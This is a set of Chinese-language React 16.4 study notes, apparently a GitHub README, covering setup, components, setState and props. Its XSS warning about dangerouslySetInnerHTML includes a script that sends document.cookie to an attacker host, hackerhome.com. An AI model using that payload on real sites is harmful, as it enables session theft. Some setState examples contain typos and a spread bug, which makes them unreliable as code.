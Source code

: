 # React16.4

一.安装

    1.npm install -g create-react-app
    2.create-react-app reactDemo
    

二.文件目录

    1. src/index.js 为入口文件
    
    
三.基础用法

    1. import React ,{ Component , Fragment } from 'react';   /* Fragment为占位符，在页面上不会显示这个元素 */
        class (定义一个组件类) extends Component {
          constructor(props){
            super(props);

            /* 定义状态 */
            this.state = {
              inputValue : "",
              list : []
            }
          }

          render() {
            return (
              <Fragment>
              </Fragment>
            );
          }
        }
      
    2. 事件绑定

         在 constructor 中设置 bind this
         栗子 ： this.handleBtnClick = this.handleBtnClick.bind(this);

    3. react中 类名class要写成className , for 要写成 htmlFor, <label htmlFor="inputArea">请输入内容</label>
    
    4. 设置状态

         用法一 ： 
           this.setState({
            inputValue : ""
           });

         用法二 : 
           this.setState( (preState) => {
            return {
              list : [ ...this.State.list,...this.state.inputValue ],
              inputValue : ""
            };
           });

         用法三 : 
           /* preState 可以代替 this.state */
           this.setState( (preState) => ({
             list : [ ...preState.list,...preState.inputValue ],
             inputValue : "" 
           }))

    5. 父子组件通信
         
         ps ：react采用单项数据流，绝对不可以将父组件的 state 传递给子组件。
         
         假设这是一个子组件 <TodoItem /> , 那么我们可以这样将父组件的数据传给它 : 
            <TodoItem content = {item} /> // TodoItem 组件可以通过 this.props.content 拿到数据
         传递方法 : 
            ps : 一定要 记得 bind(this)
            <TodoItem  testBtn = {this.btnAlert.bind(this)} /> // TodoItem 组件可以通过 this.props.tesBtn() 调用方法
           
            子组件get属性的时候，可以将属性提取出来，结构赋值需要加 {}
            例如 : 
                const { testBtn } = this.props ;
                这样就可以直接使用 testBtn 这个方法了 !!
    
    6. dangerouslySetInnerHTML
         
         ps ：不合时宜的使用 innerHTML 可能会导致 cross-site scripting (XSS) 攻击。 
              净化用户的输入来显示的时候，经常会出现错误，不合适的净化也是导致网页攻击的原因之一。
              dangerouslySetInnerHTML 这个 prop 的命名是故意这么设计的，以此来警告.
              它的 prop 值(一个对象而不是字符串）应该被用来表明净化后的数据。
         
         dangerouslySetInnerHTML = {{__html : this.state.html}}
         
         ps : 恶意脚本 ，获取网页cookie
         <script>
           document.write('<img src=http://www.hackerhome.com/grabber.jsp?msg=' + document.cookie+' width=16 height=16 border=0 />');
         </script>
         
        
         
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
       
    
      
